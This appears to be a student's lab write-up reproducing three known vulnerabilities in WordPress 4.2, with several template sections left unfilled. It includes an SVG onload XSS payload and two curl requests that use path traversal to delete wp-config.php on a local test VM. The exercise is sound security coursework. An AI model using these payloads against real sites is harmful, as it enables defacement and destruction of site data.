


# Wordpress-Pentesting

# Project 7 - WordPress Pentesting

Time spent: **4** hours spent in total

> Objective: Find, analyze, recreate, and document **five vulnerabilities** affecting an old version of WordPress

## Pentesting Report

1. Unauthenticated Stored Cross-Site Scripting (XSS)
  - [ ] Summary: 
    - Vulnerability types: Cross-Site Scripting
    - Tested in version: 4.2
    - Fixed in version: 4.2.1
  - [ ] GIF Walkthrough:  
  - [ ] Steps to recreate: An attacker can inject Javascript into Wordpress comments, which is then triggered when the script is viewed. So first, I logged into the admin account, and published a new page that could recieve comments where the attack could occur. Then I wrote the following in a comment: "<svg/onload=alert('XSS')/>", and published the comment. Whenever the page was reloaded the alert would appear, therefore proving the attack was successful.
  - [ ] Affected source code: source code couldn't be found
    - [Link 1](https://core.trac.wordpress.org/browser/tags/version/src/source_file.php)
2. Large File Upload Error XSS
  - [ ] Summary: 
    - Vulnerability types: Cross-Site Scripting
    - Tested in version: 4.2
    - Fixed in version: 4.2.15
  - [ ] GIF Walkthrough: 
  - [ ] Steps to recreate: I first googled images that were larger than 20MB, and downloaded an image to my Desktop that I could upload into wordpress. I renamed the file "world.topo.200407.3x21600x21600.C1.jpg" so that when the image was uploaded, the file name would display the alert. I created a new media file in Wordpress and when I went to upload the file, the XSS alert popped up proving the attack was successful.
  - [ ] Affected source code: source code: https://github.com/WordPress/WordPress/commit/8c7ea71edbbffca5d9766b7bea7c7f3722ffafa6
    - [Link 1](https://core.trac.wordpress.org/browser/tags/version/src/source_file.php)
3. Authenticated Arbitrary File Deletion
  - [ ] Summary: 
    - Vulnerability types:  
    - Tested in version: 4.2
    - Fixed in version: 4.2.21
  - [ ] GIF Walkthrough: 
  - [ ] Steps to recreate: To recreate this attack, I logged in as admin and uploaded an image in a new media post. I then went to edit the image, and inspected the element of the page to find the _wponce value and the Cookie. I used these two commands with the found Cookie, _wponce value and URL: (found from the instructions on blog.vulnsy.com) "curl -v 'http://wpdistillery.vm/wp-admin/post.php?post=11' -H 'Cookie: wordpress_4eeeccf202d6f9157cf690a61cb703b4=admin%7C1540089574%7C8lj3zp4K49vKk2Zj5RRHtCAeksyCj3qRea5tWpy9eS3%7C996cedaa90cafc88dd8512e6d87229bfe26455363e2b720f247575db618531f9; wp-settings-time-1=1539830916; wp-settings-1=libraryContent%3Dbrowse; wordpress_test_cookie=WP+Cookie+check; wordpress_logged_in_4eeeccf202d6f9157cf690a61cb703b4=admin%7C1540089574%7C8lj3zp4K49vKk2Zj5RRHtCAeksyCj3qRea5tWpy9eS3%7Cbc173c4f49746de0955b56de4b72f3ae457e102cfb5f939e21c0bcbeac597160' -d 'action=editattachment&_wpnonce=d7dfddaecb&thumb=../../../../wp-config.php'" and "curl -v 'http://wpdistillery.vm/wp-admin/post.php?post=11' -H 'Cookie: wordpress_4eeeccf202d6f9157cf690a61cb703b4=admin%7C1540089574%7C8lj3zp4K49vKk2Zj5RRHtCAeksyCj3qRea5tWpy9eS3%7C996cedaa90cafc88dd8512e6d87229bfe26455363e2b720f247575db618531f9; wp-settings-time-1=1539830916; wp-settings-1=libraryContent%3Dbrowse; wordpress_test_cookie=WP+Cookie+check; wordpress_logged_in_4eeeccf202d6f9157cf690a61cb703b4=admin%7C1540089574%7C8lj3zp4K49vKk2Zj5RRHtCAeksyCj3qRea5tWpy9eS3%7Cbc173c4f49746de0955b56de4b72f3ae457e102cfb5f939e21c0bcbeac597160' -d 'action=delete&_wpnonce=d7dfddaecb'". Once these two commands were run in terminal, I went back to my image and deleted the image permanently. I was then redirected to a page that essentially broke the site and allowed no further actions to be performed. An attacker could easily start deleting files, accessing information, reconfiguring the site and more. 
  - [ ] Affected source code: https://github.com/WordPress/WordPress/commit/c9dce0606b0d7e6f494d4abe7b193ac046a322cd
    - [Link 1](https://core.trac.wordpress.org/browser/tags/version/src/source_file.php)

## Assets

List any additional assets, such as scripts or files

## Resources

- [WordPress Source Browser](https://core.trac.wordpress.org/browser/)
- [WordPress Developer Reference](https://developer.wordpress.org/reference/)
- [Stored XSS] (https://klikki.fi/adv/wordpress2.html)
- [File Too Large] (https://hackerone.com/reports/203515)
- [Arbitrary File Deletion] (http://blog.vulnspy.com/2018/06/27/Wordpress-4-9-6-Arbitrary-File-Delection-Vulnerbility-Exploit/)

GIFs created with [LiceCap](http://www.cockos.com/licecap/).

## Notes

(No challenges were encountered)

## License

    Copyright [yyyy] [name of copyright owner]

    Licensed under the Apache License, Version 2.0 (the "License");
    you may not use this file except in compliance with the License.
    You may obtain a copy of the License at

        http://www.apache.org/licenses/LICENSE-2.0

    Unless required by applicable law or agreed to in writing, software
    distributed under the License is distributed on an "AS IS" BASIS,
    WITHOUT WARRANTIES OR CONDITIONS OF ANY KIND, either express or implied.
    See the License for the specific language governing permissions and
    limitations under the License.
